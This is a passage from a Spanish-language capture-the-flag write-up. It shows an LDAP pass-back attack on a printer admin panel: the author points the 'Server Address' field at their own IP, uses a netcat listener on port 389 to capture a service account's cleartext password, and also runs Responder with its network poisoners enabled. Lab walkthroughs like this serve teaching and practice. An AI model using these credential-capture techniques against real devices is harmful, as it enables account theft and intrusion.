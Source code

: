![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/934289d4-5e0f-4e7c-a59f-7c5a9df5d08d)

Parece ser un panel de administración de impresoras.
Al hacer [hovering](https://my.wlu.edu/its/how-to/safe-computing-hover-technique){:target="\_blank"}{:rel="noopener nofollow"} sobre los enlaces de arriba veo que todos no llevan a nada excepto el enlace **Home** (que es la página principal donde estamos) y el enlace **Settings**.
Accedo a este último y nos encontramos con este formulario:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/b3a140e7-d3a0-4a52-92bb-a56c72a952f0)

## Found creds
Parece haber una contraseña en el campo **Password** pero al ver el código fuente de la página vemos que son `*******` literalmente:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/dd9ce9c3-4a54-4a75-a1f8-e811ce0cd9d5)

Abro la pestaña de **Network** del menú de desarrollador del navegador (F12) para ver que se tramita al pulsar el botón `Update` y vemos lo siguiente:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/017999a7-6c03-4da2-b058-4a557ed56dee)

Lo único que se envía del formulario es el valor del campo **Server Address**. Pruebo a editar este campo y pongo mi **IP local** de la VPN, me pongo en escucha por el puerto que aparece en el formulario (389 que es el puerto por defecto de LDAP) y le doy de nuevo al botón `Update` y nos llega algo:
```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ sudo nc -lvp 389
[sudo] password for z3r0byte: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.10.11.108.
Ncat: Connection from 10.10.11.108:62131.
0*`%return\svc-printer�
                       1edFg43012!!
```
Nos llega lo que parece ser unas credenciales. Esto también se puede llevar a cabo con la herramiento **Responder**:
```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
```
